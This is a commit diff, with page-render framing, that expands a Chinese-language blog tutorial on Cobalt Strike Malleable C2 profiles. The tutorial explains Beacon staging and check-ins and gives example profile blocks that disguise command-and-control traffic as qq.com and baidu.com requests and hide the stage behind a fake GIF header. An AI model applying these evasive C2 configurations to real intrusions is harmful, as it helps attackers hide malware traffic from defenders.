

Before and after one commit to ProfesMoriarty/ProfesMoriarty.github.io, a Jekyll site: the page built from posts/MalleableC2Profile.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
Profile
add new content

````diff
--- a/posts/MalleableC2Profile.md
+++ b/posts/MalleableC2Profile.md
@@ -8,58 +8,178 @@ layout: default
 
 # Cobalt Strike -- Malleable C2 Profile
 
-## 0x01 Malleable C2 Profile 基本构成部分
+## 0x01 Malleable C2 Profile 基础
+
+CobaltStrike提供Melleable C2 Profile文件可以修改Beacon默认的流量以及行为特征，从而达到隐藏自身的效果。按照官方文档的说法，创建配置文件最好的办法就是修改现有的配置文件，[Github](https://github.com/rsmudge/Malleable-C2-Profifiles)上有一个配示例仓库。可以从该仓库中参考定制Profile文件。然后适用cs自带的profile检查工具`c2init`检查Profile是否能正常运行。
+
+### CS基本名词
+
+* `Staging `: 指的是payload分阶段下发的过程
+
+* `Stager` : 是一段短的汇编指令，用来下载stage，并将其注入内存执行
+
+* `Stage` : 是实际最终执行的payload
+
+* `Beacon` : 指在受害机上运行的CS客户端(Payload)
 
 
 
-CobaltStrike提供Melleable C2 Profile文件可以修改Beacon默认的流量以及行为特征，从而达到隐藏自身的效果。按照官方文档的说法，创建配置文件最好的办法就是修改现有的配置文件，[Github](https://github.com/rsmudge/Malleable-C2-Profifiles)上有一个配示例仓库。可以从该仓库中参考定制Profile文件。
+### Beacon交互过程
+
+1. 如果Teamserver使用了staging，则stager像teamserver发送一条Get请求获取Payload stage
+2. Beacon运行后会向Teamserver发送包含元数据的Get心跳包请求
+3. Teamserver收到Beacon的元数据请求后，会发送一个返回包给Beacon，如果Teamserver有命令下发给Beacon，命令会包含在这个返回包里
+4. Beacon收到Teamserver带有命令的返回包，执行完任务后，会将回显数据通过POST请求包发送给Teamserver
+5. Teamserver收到POST包之后同样会发送一个返回包，这个返回包不包含任何命令等信息，Beacon不对这个返回包进行任何相应，从而循环执行2步骤
 
 
 
-cs自带了profile检查工具：c2init
+## 0x02 Profile详解
 
-## 0x02 各部分详解
+### 基本语法
+
+* `#` 为注释信息
+
+* `set`关键字用来赋值
+
+* `{}`花括号用来组合http-get / http-post包含的信息及语句
+
+* 每条语句都以`;`结尾
+
+
 
 ### http-get
 
-受控机会主动向teamserver发送get上线请求包。
+`http-get`部分用来自定义Beacon与teamserver交互的2、3过程中的请求。`client`模块对应的是Beacon上传元数据心跳包的请求。`server`模块对应的是Teamserver接收心跳后下发命令的请求包。
+
+```
+http-get {
+    # 心跳包的请求url
+    set uri "/qq.js";
+
+    # 心跳包的请求包的格式，其中metadata是包含beacon客户端的元数据
+    client {
+        header "Accept" "*/*";
+        header "Accept-Encoding" "gzip, deflate";
+        header "Host" "www.qq.com";
+        header "Cookie" "99187231";
+        metadata {
+            base64url;
+            prepend "https://www.baidu.com";
+            header "Referer";
+        }
+    }
+
+    # 心跳包的返回包格式，其中ouput是包含teamserver下发的命令内容
+    server{
+
+        header "Server" "nginx";
+        header "Content-Encoding" "text/javascript";
+
+        output{
+            base64;
+            prepend "{";
+            append "};";
+            print;
+        }
+    }
+}
+```
+
+
 
 ### http-post
 
-teamserver通过post请求向受控机下发命令
+`http-post`部分用来自定义Beacon与Teamserver交互的4、5过程中的请求。`client`模块对应的是Beacon上传命令执行结果的POST请求。`server`模块对应的是Teamserver的返回。
 
-### https-certificate
+```
+http-post{
+    # 命令回显结果的请求包的url
+    set uri "/search";
 
-用来设置ssl上线，
+    # 命令回显的请求包格式，其中包含命令执行返回值，其中需要包括id用来标识会话，output是命令执行结果在请求包中的位置
+    client{
+        header "Host" "www.baidu.com";
 
-### stage
+        id {
+            base64url;
+            prepend "https://t.qq.com/";
+            header "Referer";
+        }
 
-Stage用来控制Beacon
+        output{
+            base64url;
+            prepend "aid=522005705&accver=1&showtype=embed&ua=";
+            print;
+        }
+    }
+
+    # teamserver收到命令执行结果请求包后的返回包，默认为空
+    server{
+        header "Server" "nginx";
+        header "Content-Type" "application/json";
+        header "Connection" "close";
+        header "Accept-Ranges" "bytes";
+        header "P3P" "CP=CAO PSA OUR";
+
+        output{
+            base64;
+            print;
+        }
+    }
+
+}
+```
+
+
 
 ### http-stager
 
-按照cs的官方文档， http-stager用来自定义HTTP staging 过程
+ `http-stager`用来自定义HTTP staging 过程，也就是对应的是Beacon与Teamserver交互的第一步。 `set uri_x`设置的是不同位数的payload对应的uri。`client`对应是stager请求stage的请求包。 `server`对应的是stage内容的返回包。
+
+```
+http-stager{
+    # 第一次获取stage请求的url
+  set uri_x86 "/load.gif";
+	set uri_x64 "/loading.gif";
+
+    # 获取stage的请求包内容
+    client {
+        header "Host" "www.qq.com";
+	}
+
+    # stage返回包的格式，其中包含stage的payload
+    server {
+		header "Content-Type" "image/gif";
+		output {
+			prepend "GIF89a";
+			print;
+		}
+	}
+}
+```
+
+
+
+### http-config
+
+`http-config`是用来定制CS Web服务的HTTP请求的请求头，如果在上面get和post中一定指定过的header头会被忽略。`set header`用来指定header头的顺序，不在`set header`中的header字段会被排在下面。`set trust_x_forwarded_for`用来指定是否通过`x-forworded-for`来确定远程访问的IP，如果使用了重定向器就需要指定为True
 
 ### Profile Variants
 
 在同一个配置文件中配置多个配置模板
 
+### https-certificate
 
+http-certificate主要用来设置SSL证书相关
 
-## 0x03 名词解释
+### stage
 
-1. Stage
-2. Stager
-3. Staging
-4. Beacon：Beacon就是运行在被控机器上的payload 也就是shellcode
+ stage 块控制如何将 Beacon 加载到内存中以及编辑 Beacon DLL 的内容。
 
 
 
-
-
-
-
-## 参考链接
+## 0x03 参考链接
 
 * [cs官方文档](https://www.cobaltstrike.com/help-malleable-c2)
 * [How to Write Malleable C2 Profiles for Cobalt Strike](https://bluescreenofjeff.com/2017-01-24-how-to-write-malleable-c2-profiles-for-cobalt-strike/)
````
Also changed, not shown: index.md (+1 -1 lines), posts/Accesskey.md (added, +17 -0 lines), posts/windowsPrivilegeEscalation.md (line endings or trailing spaces).
